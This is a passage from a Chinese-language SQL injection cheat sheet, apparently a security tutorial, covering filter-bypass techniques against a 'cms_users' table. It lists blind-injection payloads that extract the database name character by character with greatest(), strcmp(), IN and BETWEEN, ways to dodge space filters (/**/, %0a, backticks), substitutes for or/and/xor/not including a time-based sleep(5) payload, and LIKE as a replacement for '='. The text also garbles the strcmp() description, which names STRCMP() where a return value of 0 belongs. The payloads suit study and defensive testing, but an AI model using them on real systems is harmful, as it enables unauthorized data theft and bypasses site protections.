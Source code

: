 ```sql
select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;
```

#### <font style="color:rgb(77, 77, 77);">strcmp()</font>
<font style="color:rgb(77, 77, 77);">strcmp(str1,str2):</font>  
<font style="color:rgb(77, 77, 77);">若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 </font><font style="color:rgb(77, 77, 77);">1</font>

```sql
select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99);
```

#### <font style="color:rgb(77, 77, 77);">in关键字</font>
```sql
select * from cms_users where userid=1 and substr(database(),1,1) in ('c');
```

#### <font style="color:rgb(77, 77, 77);">between a and b</font>
<font style="color:rgb(77, 77, 77);">between a and b:范围在a-b之间（不包含b）</font>

```sql
select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';
```

### 7.空格绕过
<font style="color:rgb(77, 77, 77);">一般绕过空格过滤的方法有以下几种方法来取代空格</font>

```sql
/**/
()
回车(url编码中的%0a)
`(tap键上面的按钮)
tap
两个空格
```

### <font style="color:rgb(79, 79, 79);">8.对or and xor not 绕过</font>
```sql
or = ||
and = &&
xor = | 或者 ^ # 异或,例如Select * from cms_users where userid=1^sleep(5);
not = !
```

### <font style="color:rgb(79, 79, 79);">9.对等号=绕过</font>
#### like
<font style="color:rgb(77, 77, 77);">不加通配符的like执行的效果和 = 一致，所以可以用来绕过。</font>  
<font style="color:rgb(77, 77, 77);">正常加上通配符的like：</font>

```sql
 Select * from cms_users where username like "ad%";
```
